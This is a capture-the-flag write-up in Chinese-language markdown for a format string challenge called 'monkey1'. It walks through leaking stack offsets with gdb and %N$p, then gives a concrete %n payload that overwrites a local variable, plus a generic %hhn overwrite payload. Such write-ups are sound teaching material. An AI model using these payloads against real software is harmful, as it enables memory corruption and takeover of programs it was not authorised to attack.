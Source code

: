 # monkey1

## core concept

format string attack

## step

- 用 gdb 建 checkpoint in program `b program`
- 因漏洞的 stack 從 local esp 往上算, 且實際位置會動, 所以要算出 banana local var 的 pointer 的偏移量
- 根據 https://www.cnblogs.com/clover-toeic/p/3755401.html stack 架構圖, 在 program 子程序中光 tmp[1024] 就佔 256 個 %x(1byte), 手算大概 26x 出頭的位置可以得到 banana 的 pointer, 可以先利用 gdb 直接印查出該測試用執行檔的 address, 再從 26x 開始試 `%N$p` 試到顯示該 address, 其為不會變的 stack 當下偏移量, 可以用此偏移量取得該次執行的該區域變數地址在此題為 269, gdb 在不同執行檔下地址會變, 所以要用偏移量看
- 得知要更改的目標, 要有要變成的目標值, 利用 format string attack %n 語法即可改值
  edit target(example): 0xffffd084,
  target value: 0x3132000a

```
by little end:
4 + 4 + 2 = 10 寫入 p32(0xffffd084) => a
(10) + 12584 寫入 p32(0xffffd084+2) => 3132
concept:
實際寫入內容 => p32(banana)+p32(banana+2)+b"%2c%7$n%12584c%8$n" 共 8 byte
- 第 7 byte 為 p32(banana)
- 第 8 byte 為 p32(banana+2)
final 格式: b(變更目標地址存放的位置與 stack 之偏移量)+b(%目標值c%實際存儲區目標地址偏移量$n)
note: 所有值都要經過微調, 串聯後也要微調, [變更目標地址存放的位置與 stack 之偏移量] 可以用下方補充方法取得
```

補充方法

- 在 program input `AABB.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`
- 可以看到 output `AABB.400.f7f0f5c0.f7f0ee34.0.9.0.42424141.2e78252e.252e7825.78252e78`
- 其中 4242 為 `BB` 在偏移 7
- 其中 4141 為 `AA` 在偏移 8
- 可以得知放入 target address 後, 取得其的偏移量

最終 output

`program(p32(banana)+p32(banana+2)+b"%2c%7$n%12584c%8$n")`

## note

Summary

1. 利用 %N$x dump 出 stack 中的 memory，找到要 overwrite
   的 target
2. 如果 target 在 stack 上，可以直接用 %N$n 改；如果不在，
   必須讓 target 的 address 想辦法出現在 stack 上
3. 用 %Nc 控制印出的字元數，再用 %N$hhn overwrite target

最後 payload 可能會長得像這樣：
`\xdc\xed\xbf\xbf\xdd\xed\xbf\xbf\xde\xed\xbf\xbf\xdf\xed\xbf\xbf%100
c%30$hhn%220c%31$hhn%55c%32$hhn%66c%33$hhn`
